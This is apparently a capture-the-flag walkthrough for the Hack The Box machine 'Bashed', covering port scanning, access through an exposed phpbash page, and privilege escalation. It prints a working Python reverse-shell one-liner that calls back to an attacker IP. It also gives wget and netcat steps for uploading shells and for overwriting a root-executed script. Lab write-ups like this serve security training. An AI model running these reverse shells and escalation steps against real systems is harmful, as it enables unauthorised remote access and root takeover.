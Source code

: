 * [Recon-Enumeration](#recon-enumeration)
* [Exploit](#exploit)
* [Privesc](#privesc)

![alt text](./img/bashed00.PNG?raw=true)  

## Recon-Enumeration  
sudo masscan -p1-65535 10.10.10.68 -e tun0 --rate=1000  
![alt text](./img/bashed01.PNG?raw=true)  

nmap -A -p 80 10.10.10.68  
![alt text](./img/bashed02.PNG?raw=true)  

gobuster dir -u http://10.10.10.68 -w ~/wordlists/big.txt -t 100 -e -x html,php,xml,txt,db,sh,exe,log  
![alt text](./img/bashed03.PNG?raw=true)  

## Exploit  
Ok….that /dev look’s interesting  
![alt text](./img/bashed04.PNG?raw=true)  

Oh…..the developer left some samples of his phpbash page on the server. So we can use it to gain access  
Just select one of the pages  
![alt text](./img/bashed05.PNG?raw=true)  

Now just grab the first flag  
![alt text](./img/bashed06.PNG?raw=true)  

sudo -l  
![alt text](./img/bashed07.PNG?raw=true)  

Well we can run some commands, however we need a tty. So let’s try to upload a php reverse shell  
You can use this code [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php), just don’t forget to change de IP and port to yours!!!

Go to the UPLOAD folder “cd /var/www/html/uploads” and wget the php file  
![alt text](./img/bashed08.PNG?raw=true)  

Start a netcat listener “nc -nvlp PORT_YOU_PUT_ON_REVERSE_PHP” and access the page  
10.10.10.68/uploads/rev.php  
![alt text](./img/bashed09.PNG?raw=true)  
HABEMUS SHELL \o/  

## Privesc  
Run the above command to get  better shell  
python3 -c 'import pty;pty.spawn("/bin/bash")'  
export TERM=xterm  

With the “sudo -l” we notice that we can run any command as scriptmanager, so let’s change the user  
sudo -u scriptmanager /bin/bash  
![alt text](./img/bashed10.PNG?raw=true)  

Let’s do some basic enumeration  
find / -user scriptmanager 2>/dev/null  
![alt text](./img/bashed11.PNG?raw=true)    

This scripts folder looks curious  
![alt text](./img/bashed12.PNG?raw=true)  
  
![alt text](./img/bashed13.PNG?raw=true)  

Ok, so the test.py open the test.txt and overwrite it. However root owns the test.txt, that means in some point the test.py is executed by root.  
After checking again the test.txt time has changed  
![alt text](./img/bashed14.PNG?raw=true)  

So there is an automation running the test.py as root. So we can change it’s content to a python reverse shell.   
The code on [this site](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) works fine  
> import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",12345));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);  

- Put this code on a file, i named aaa.txt  
- Then start a server to get the file on target machine  
- Go to /scripts and get the file “wget http://10.10.14.2/aaa.txt”  
- Then use the above code to overwrite the test.py file:  
- cat aaa.txt > test.py  

![alt text](./img/bashed17.PNG?raw=true)  

Start a netcat listener and wait  
![alt text](./img/bashed15.PNG?raw=true)  
  
Now just grab the flag  
![alt text](./img/bashed16.PNG?raw=true)  
